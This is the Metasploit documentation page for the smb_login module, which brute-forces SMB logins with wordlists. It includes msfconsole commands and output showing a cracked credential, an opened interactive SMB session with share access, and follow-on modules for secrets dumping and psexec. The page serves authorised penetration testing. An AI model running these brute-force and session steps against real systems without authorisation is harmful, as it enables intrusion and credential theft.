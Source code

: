 The smb_login module is used to bruteforce SMB remotely. SMB credentials are extra valuable because they are system credentials, and you can probably reuse some of them to log in to more machines.

## Vulnerable Application

To use smb_login, make sure you are able to connect to a SMB service that supports SMBv1.

## Verification Steps

The following demonstrates a basic scenario of using the [built-in wordlists](https://github.com/rapid7/metasploit-framework/tree/master/data/wordlists) to brute-force SMB:

```msf
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.1.80
RHOSTS => 192.168.1.80
msf auxiliary(smb_login) > set USER_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
USER_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
msf auxiliary(smb_login) > set PASS_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
PASS_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > run

[+] 192.168.1.80:445      - 192.168.1.80:445 SMB - Success: '.\root:monkey' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) >
```

If you have a database connected, you should also see this credential logged:

```msf
msf auxiliary(smb_login) > creds
Credentials
===========

host          origin        service        public  private  realm  private_type
----          ------        -------        ------  -------  -----  ------------
192.168.1.80  192.168.1.80  445/tcp (smb)  root    monkey          Password

msf auxiliary(smb_login) >
```

## Obtaining a Session

When using the smb_login module, the CreateSession option can be used to obtain an interactive
session within the smb instance. Running with the following options:

```msf
msf auxiliary(scanner/smb/smb_login) > run CreateSession=true RHOSTS=172.14.2.164 RPORT=445 SMBDomain=windomain.local SMBPass=password SMBUser=username
```

Should give you output containing:

```msf
[*] 172.14.2.164:445    - 172.14.2.164:445 - Starting SMB login bruteforce
[+] 172.14.2.164:445    - 172.14.2.164:445 - Success: 'windomain.local\username:password' Administrator
[*] SMB session 1 opened (172.16.158.1:62793 -> 172.14.2.164:445) at 2024-03-12 17:03:09 +0000
[*] 172.14.2.164:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_login) > sessions -i -1
[*] Starting interaction with 1...
```

Which you can interact with using `sessions -i <session id>` or `sessions -i -1` to interact with the most recently opened session.

```msf
msf auxiliary(scanner/smb/smb_login) > sessions -i -1
[*] Starting interaction with 1...

SMB (172.14.2.164) > shares
Shares
======

    #  Name    Type          comment
    -  ----    ----          -------
    0  ADMIN$  DISK|SPECIAL  Remote Admin
    1  C$      DISK|SPECIAL  Default share
    2  foo     DISK
    3  IPC$    IPC|SPECIAL   Remote IPC

SMB (172.14.2.164) > shares -i foo
[+] Successfully connected to foo
SMB (172.14.2.164\foo) > ls
ls
===
[truncated]
```

When interacting with a session, the help command can be useful:

```msf
SMB (172.14.2.164\foo) > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    exit          Terminate the SMB session
    help          Help menu
    irb           Open an interactive Ruby shell on the current session
    pry           Open the Pry debugger on the current session
    sessions      Quickly switch to another session


Shares Commands
===============

    Command       Description
    -------       -----------
    cat           Read the file at the given path
    cd            Change the current remote working directory
    delete        Delete a file
    dir           List all files in the current directory (alias for ls)
    download      Download a file
    ls            List all files in the current directory
    mkdir         Make a new directory
    pwd           Print the current remote working directory
    rmdir         Delete a directory
    shares        View the available shares and interact with one
    upload        Upload a file


Local File System Commands
==========================

    Command       Description
    -------       -----------
    getlwd        Print local working directory (alias for lpwd)
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    ldir          List local files (alias for lls)
    lls           List local files
    lmkdir        Create new directory on local machine
    lpwd          Print local working directory

This session also works with the following modules:

  auxiliary/admin/dcerpc/icpr_cert
  auxiliary/admin/dcerpc/samr_account
  auxiliary/admin/smb/delete_file
  auxiliary/admin/smb/download_file
  auxiliary/admin/smb/psexec_ntdsgrab
  auxiliary/admin/smb/upload_file
  auxiliary/gather/windows_secrets_dump
  auxiliary/scanner/smb/pipe_auditor
  auxiliary/scanner/smb/pipe_dcerpc_auditor
  auxiliary/scanner/smb/smb_enum_gpp
  auxiliary/scanner/smb/smb_enumshares
  auxiliary/scanner/smb/smb_enumusers
  auxiliary/scanner/smb/smb_enumusers_domain
  auxiliary/scanner/smb/smb_lookupsid
  exploit/windows/smb/psexec
```

## Credential Options

By default, the smb_login module only requires the RHOSTS option to run. But in reality, you will
also need to supply user names and passwords. The following options are available to support
different credential formats:

**The USER_FILE option**

If you happen to manage all the found user names in a separate file, then this option would be
suitable for that. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The SMBUser option**

If you are testing a specific user, use this option.

```
set SMBUser [user name]
```

**The SMBPass option**

If you are testing a specific password, use this option.

```
set SMBPass [password]
```

Note: If an account has been successfully brute-forced, that account will not be tried again.

Additionally, if you wish to disable automatic detection of all-access systems, you can change the following option:

**The DETECT_ANY_AUTH option**

This option enables detection of systems accepting any authentication. A bogus login will be attempted.

```
set DETECT_ANY_AUTH false
```
